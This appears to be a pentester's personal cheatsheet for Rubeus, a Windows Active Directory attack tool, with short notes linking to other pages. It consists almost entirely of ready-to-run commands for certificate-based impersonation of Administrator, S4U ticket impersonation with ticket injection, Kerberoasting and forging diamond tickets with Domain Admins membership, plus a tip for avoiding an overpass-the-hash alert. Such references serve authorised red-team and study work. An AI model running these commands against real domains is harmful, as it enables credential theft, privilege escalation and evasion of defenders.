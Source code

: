 # Rubeus Cheatsheet

Rubeus is Active Directory exploitation tool that is predominately used from compromised domain-joined Windows host, so gain access and compile [Rubeus](https://github.com/GhostPack/Rubeus) on the target machine. Compilation instructions can be found [here](https://github.com/GhostPack/Rubeus#compile-instructions).

Impersonate a User for [[AD-Certificate-Exploitation]], use Rubeus to request a TGT using the certificate to verify that the certificate is trusted - [[AD-Certificate-Exploitation]] and [[AD-Persistence-Certificates]]
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```


In [[GenericAll]] abuse; we can then use hash the plaintext password into its RC4_HMAC form:
```powershell
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:
```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

Kerberoast
```powershell
.\Rubeus.exe kerberoast /creduser:$domain.$tld\$user /credpassword:Password123! /nowrap
```


Diamond Tickets
```powershell
.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512
```


## References

[Hacktricks - Diamond Tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket)